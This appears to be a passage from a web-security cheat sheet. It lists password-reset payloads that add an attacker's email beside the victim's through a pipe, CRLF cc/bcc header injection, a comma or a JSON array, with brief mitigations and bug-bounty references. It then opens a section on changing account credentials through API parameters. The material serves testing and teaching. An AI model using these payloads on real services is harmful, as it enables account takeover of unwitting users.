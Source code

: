 - Add attacker email as second parameter using |

```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

- Add attacker email as second parameter using cc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

- Add attacker email as second parameter using bcc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

- Add attacker email as second parameter using ,

```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

- Add attacker email as second parameter in json array

```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

- **Mitigation Steps**:
  - Properly parse and validate email parameters server-side.
  - Use prepared statements or parameterized queries to prevent injection attacks.
- **References**:
  - [https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)
  - [https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/](https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/)
  - [https://twitter.com/HusseiN98D/status/1254888748216655872](https://twitter.com/HusseiN98D/status/1254888748216655872)

## **Changing Email And Password of any User through API Parameters**

- Attackers can modify email and password parameters in API requests to change account credentials.

```php
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```
